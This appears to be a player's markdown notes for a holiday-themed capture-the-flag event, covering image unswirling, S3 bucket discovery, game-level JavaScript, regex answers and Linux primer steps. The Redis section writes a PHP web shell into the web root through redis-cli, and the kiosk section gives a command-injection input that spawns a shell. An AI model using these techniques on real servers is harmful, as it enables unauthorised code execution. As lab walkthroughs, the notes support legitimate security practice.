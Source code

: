 # Uncover Santa's Gift List
- Use Photopea to undo the twirled area
- Select area and use Distort -> Twirl
Alternatively
- Save billboard image
- open in photo editor e.g. Paintshop Pro
- Crop to distorted list
- Use Twirl distortion effect or similar to undo distortion
- Josh Wright is getting a ```proxmark```
(In GIMP this can be done with the Warp Transform brush set to "swirl clockwise" and making the brush larger than the distorted area and gradually applying the brush...it can be tricky to get the precise correction)

# Investigate S3 Bucket
	
	cd bucket_finder
	bucket_finder.rb --help
	bucket_finder.rb wordlist
	vim wordlist
Add 'wrapper3000' or change 'wrapper' to 'wrapper3000'
	bucket_finder.rb wordlist
Finds wrapper3000/package
	bucket_finder.rb wordlist --download
	cd wrapper3000
	base64 --decode package >> package2
	file package2
	unzip package2
	bunzip2 package.txt.Z.xz.xxd.tar.bz2
	tar -xf package.txt.Z.xz.xxd.tar
	xxd -r package.txt.Z.xz.xxd >> package.txt.Z.xz
	unxz package.txt.Z.xz
	uncompress package.txt.Z
	cat package.txt 
```North Pole: The Frostiest Place on Earth```

# Javascript Challenge:

## Level 1
elf.moveLeft(10); elf.moveUp(12)

## Level 2
	
	var answer = elf.get_lever(0) + 2
	elf.moveLeft(6)
	elf.pull_lever(answer)
	elf.moveLeft(4)
	elf.moveUp(12)
## Level 3
	
	elf.moveTo(lollipop[0])
	elf.moveTo(lollipop[1])
	elf.moveTo(lollipop[2])
	elf.moveUp(4)
## Level 4
	for (var i = 0; i < 3; i++) {
		elf.moveLeft(3);
		elf.moveUp(40);
		elf.moveLeft(2);
		elf.moveDown(40);}
## Level 5
	
	var test = elf.ask_munch(0);
	var answer = test.filter(Number);
	elf.moveTo(munchkin[0]);
	elf.tell_munch(answer);
	elf.moveUp(4);
## Level 6
	
	var answer = elf.get_lever(0);
	answer = answer.unshift("Munchkins Rule");
	for (var i = 0; i < 4; i++) {
		elf.moveTo(lollipop[i]);
		}
	elf.moveTo(lever[0]);
	elf.pull_lever(answer); #Lever still not working
	elf.moveTo(munchkin[0]);

# Redis RCE:
	
	curl http://localhost/maintenance.php?cmd=get+config+*  R3disp@ss
	redis-cli
	auth R3disp@ss
	config set dir /var/www/html
	config set dbfilename redis.php
	config set test <?php system(\$_GET['c']); ?>
	exit
	curl http://localhost/redis.php?c=more+index.php
	
# Door, lights, vending machines, lights
	strings Door (pass:Op3nTheD00r)
	cd ~/lab
	copy encrypted pass to name field in lights.conf
	./lights (pass: Computer-TurnLightsOn)
	cd home and run ./lights
	cd ~/lab
	mv vending-machines.json vending-machines.json.old
	./vending-machines (creates new config)
	user: AAAA
	pass: abcdefghijklmnopqrstuvwxyz (pass encrypted as "9UedAffhM83WsX4LYNPCwn2Eia")
	pass: aaaaaa (encrypted as "9Vbtac"
	cat vending-machines.json
	encryption IS deterministic, length equal, username has no effect, clearly progressive
	to crack: LVEdQPpBwr 10-characters

```CandyCane1```

# Javascript Regex:
	1 - \d	digits only
	2 - [a-zA-Z]{3}		3x alphabetic case-insensitive
	3 - [a-z0-9]{2} 	2x alpha-numeric
	4 - [^A-L1-5]{2} 	2x anything not A-L 1-5
	5 - ^[0-9]{3,}$ 	3 or more numeric 
	6 - ^([0|1]?[0-9]|2[0-3]):([0-5][0-9]):([0-5][0-9])$   HH:MM:SS
	7 - ^([a-fA-F0-9]{2}:){5}[a-fA-F0-9]{2}$	MAC Address
	8 - ^([0|1][0-9])[.\/-]([0|1|2][0-9]|3[0-1])[.\/-]([0-9]{4})$  Any MM/DD/YYYY format

# HID Lock:
 	#db# TAG ID: 2006e22f0e (6023) - Format Len: 26 bit - FC: 113 - Card: 6023

# Splunk:
	1 - 13
	2 - t1059.003-main t1059.003-win
	3 - HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography
	4 - 2020-11-30T17:44:15Z
	5 - 3648
	6 - quser
	7 - 
	Objective - 

# Other

## Unescape TMUX
```tmux attach```

## Kringle Kiosk
Option 4 allows user input
Select option 4
	
	mynameis && /bin/bash

## Linux Primer

	ls
	cat munchkin_19315479765589239
	rm munchkin_19315479765589239
	pwd
	ls -lah
	cat .munchkin_5074624024543078
	history | grep -i munchkin
	!1
	printenv
	echo $z_MUNCHKIN
	cd workshop
	grep -i munchkin *
	chmod +x lollipop_engine
	./lollipop_engine
	cd electrical
	mv blown_fuse0 fuse0
	ln -s fuse0 fuse1
	cp fuse1 fuse2
	echo MUNCHKIN_REPELLENT >> fuse2
	ls -R /opt/munchkin_den | grep -i munchkin
	find /opt/munchkin_den -type f -user munchkin
	find /opt/munchkin_den -type f -size +108k -size -110k
	ps aux
	netstat -l
	curl -X get localhost:54321
	kill 40129
	